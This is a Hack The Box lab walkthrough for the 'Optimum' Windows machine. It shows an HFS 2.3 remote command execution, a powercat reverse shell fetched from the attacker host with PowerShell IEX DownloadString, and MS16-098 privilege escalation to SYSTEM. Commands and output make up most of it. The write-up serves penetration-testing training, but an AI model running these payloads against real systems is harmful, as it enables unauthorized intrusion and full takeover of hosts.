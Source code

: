 # \_\__LeeCyberSec_\_\_
| About Author | **Hack The Box Walkthrough** |
| :-------------------------------- |-------------------------------|
| **I'm Hades - Red/purple teamer** <br> `Email:` [tuvn@protonmail.com](mailto:tuvn@protonmail.com) <br> <br> `Platform:` [HackTheBox](https://www.hackthebox.eu/profile/167764) \|\| [TryHackMe](https://tryhackme.com/p/leecybersec) \|\| [PentesterLab](https://pentesterlab.com/profile/leecybersec) <br> <br> <img src="http://www.hackthebox.eu/badge/image/167764" alt="Hack The Box"> <br> <br> *Support me at [buymeacoffee](https://www.buymeacoffee.com/leecybersec)* <br> <a href='https://www.buymeacoffee.com/leecybersec' target="blank"><img src="images/bymeacoffee.png" width="200"/></a> | <img src="images/1.png" width="555"/></a> |

# Table of contents

<!-- MarkdownTOC -->

- [Information Gathering](#information-gathering)
	- [Openning Services](#openning-services)
	- [HttpFileServer httpd 2.3](#httpfileserver-httpd-23)
- [Foothold](#foothold)
	- [HttpFileServer RCE](#httpfileserver-rce)
	- [PowerShell Reverse Shell](#powershell-reverse-shell)
- [Privilege Escalation](#privilege-escalation)
	- [RGNOBJ Integer Overflow](#rgnobj-integer-overflow)

<!-- /MarkdownTOC -->

## Information Gathering

### Openning Services

```
┌──(Hades㉿10.10.14.5)-[1.3:22.4]~/scripting
└─$ sudo ./enum/all.sh 10.10.10.8
[sudo] password for kali: 

### Port Scanning ############################
nmap -sS -p- --min-rate 1000 10.10.10.8 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//

[+] Openning ports: 80

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.10.8 -p80
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-02 23:47 +07
Nmap scan report for 10.10.10.8
Host is up (0.23s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 26.21 seconds
```

### HttpFileServer httpd 2.3

![](images/2.png)

Search exploits with `searchsploit`

```
┌──(Hades㉿10.10.14.5)-[1.5:20.3]~
└─$ searchsploit HttpFileServer 2.3         
------------------------------------------------- ---------------------------------
 Exploit Title                                   |  Path
------------------------------------------------- ---------------------------------
Rejetto HttpFileServer 2.3.x - Remote Command Ex | windows/webapps/49125.py
------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Foothold

### HttpFileServer RCE

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/optimum)

Using exploit `windows/webapps/49125.py`, I try to execute it to sent ping command `cmd.exe /c ping 10.10.14.5` and monitor icmp using `tcpdump`.

```
┌──(Hades㉿10.10.14.5)-[1.5:20.7]~/walkthrough/hackthebox/optimum
└─$ python3 49125.py 10.10.10.8 80 "cmd.exe /c ping 10.10.14.5"
http://10.10.10.8:80/?search=%00{.+exec|cmd.exe%20/c%20ping%2010.10.14.5.}
```

```
┌──(Hades㉿10.10.14.5)-[1.5:20.5]~
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
00:00:27.674206 IP 10.10.10.8 > 10.10.14.5: ICMP echo request, id 1, seq 1, length 40
00:00:27.674272 IP 10.10.14.5 > 10.10.10.8: ICMP echo reply, id 1, seq 1, length 40
<snip>
```

### PowerShell Reverse Shell

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/optimum)

Using powercat.ps1 to create ps file reverse shell.

```
┌──(Hades㉿10.10.14.5)-[0.1:13.9]~/walkthrough/hackthebox/optimum
└─$ pwsh
PowerShell 7.1.2
<snip>       

PS /<snip> . ./powercat.ps1
PS /<snip> powercat -c 10.10.14.5 -p 443 -e cmd.exe -g > shell.ps1
```

At kali machine, create a http server and a listener.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.7]~/walkthrough/hackthebox/optimum
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.8 - - [04/Apr/2021 21:15:52] "GET /shell.ps1 HTTP/1.1" 200 -
10.10.10.8 - - [04/Apr/2021 21:15:52] "GET /shell.ps1 HTTP/1.1" 200 -
```

```
┌──(Hades㉿10.10.14.5)-[0.1:14.8]~
└─$ sudo nc -nvlp 443
listening on [any] 443 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.10.8] 49170
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>
```

Last step, execute payload with python3.

```
┌──(Hades㉿10.10.14.5)-[0.1:14.8]~/walkthrough/hackthebox/optimum
└─$ cmd="powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.14.5/shell.ps1')"

┌──(Hades㉿10.10.14.5)-[0.1:14.8]~/walkthrough/hackthebox/optimum
└─$ python3 49125.py 10.10.10.8 80 "$cmd"
http://10.10.10.8:80/?search=%00{.+exec|powershell.exe%20IEX%20%28New-Object%20System.Net.WebClient%29.DownloadString%28%27http%3A//10.10.14.5/shell.ps1%27%29.}
```

## Privilege Escalation

### RGNOBJ Integer Overflow

[*Poc code here*](https://github.com/leecybersec/walkthrough/tree/master/hackthebox/optimum)

```
C:\Users\kostas\Desktop>systeminfo
systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
<snip>
System Type:               x64-based
<snip>
```

I copy the result of `systeminfo` to file `win-server-2012-6.3.9600.txt` and check it using [windows-exploit-suggester.py](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

```
┌──(Hades㉿10.10.14.5)-[0.1:13.5]~/priescal/Windows-Exploit-Suggester
└─$ python windows-exploit-suggester.py --database 2021-04-03-mssb.xls --systeminfo ~/walkthrough/hackthebox/optimum/win-server-2012-6.3.9600.txt
<snip> 
[E] MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]   https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]   https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]   https://github.com/tinysec/public/tree/master/CVE-2016-7255
[*] 
[E] MS16-098: Security Update for Windows Kernel-Mode Drivers (3178466) - Important
[*]   https://www.exploit-db.com/exploits/41020/ -- Microsoft Windows 8.1 (x64) - RGNOBJ Integer Overflow (MS16-098)
<snip>
[*] done
```

Because it is Windows x64, I using MS16-098 vulnerability.

Download binary file with `wget`.

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
```

Download file `41020.exe` to windows Server using power shell and execute it.

```
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.5/41020.exe','C:\Users\kostas\Desktop\41020.exe')"
```

```
C:\Users\kostas\Desktop>41020.exe
41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami
whoami
nt authority\system

C:\Users\kostas\Desktop>
```